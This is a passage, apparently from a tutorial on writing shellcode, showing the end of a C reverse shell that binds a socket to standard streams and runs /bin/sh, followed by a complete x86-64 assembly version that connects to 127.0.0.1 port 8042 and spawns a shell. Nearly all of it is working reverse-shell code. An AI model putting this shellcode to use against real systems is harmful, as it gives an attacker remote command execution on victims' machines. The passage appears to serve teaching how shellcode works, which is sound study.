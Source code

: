 ```c
  dup2(sock, STDERR_FILENO);

  char *argv[] = {"/bin/sh", NULL};
  execve(argv[0], argv, NULL);
}
```

And here is its assembly equivalent, that I found [on the internet](https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html):

```assembly
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall


push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx

mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall

pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall

push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```
